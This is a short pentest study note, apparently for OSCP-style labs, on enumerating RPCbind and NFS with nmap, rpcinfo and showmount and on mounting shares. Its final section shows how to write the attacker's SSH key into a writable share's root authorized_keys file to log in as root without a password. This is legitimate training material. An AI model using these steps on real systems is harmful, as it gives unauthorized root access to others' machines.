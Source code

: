 ```yaml
---
title: "111, 2049 - NFS"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - nfs
toc: true
hide_title: true
excerpt: ""
---
```


## Nmap Scan on RPCbind and NFS

```
nmap -v -p 111 10.11.1.1-254

nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254

nmap -p 111 --script nfs* 10.11.1.72
```
## Identifying if NFS is in use

```
rpcinfo -p 10.10.10.3

# If you get 111 and 2049 listed , shares are enable and we can mount them
```

## Show all mounts

```
showmount -e 10.10.10.3
```

## Mount a NFS share

```
mkdir /mnt/nfs
```

```
mount -t nfs $ip:/share /mnt/nfs
```

## Unmounting the shares

```
umount -f -l /mnt/nfs
# -f – Force unmount (in case of an unreachable NFS system).
# -l – Lazy unmount. Detach the filesystem from the filesystem hierarchy now, and cleanup all references to the filesystem as soon as it is not busy anymore.
```

## Further Exploitation

**If you can write to the remote hosts, try to put ssh key there** so that we can get remote ssh without password

```
ssh keygen
# Generating ssh keys

cat ~/.ssh/id_rsa.pub >> /mnt/nfs/root/.ssh/authorized_keys
# Putting it to remote host

ssh root@$ip
# Now can login without password on target
```

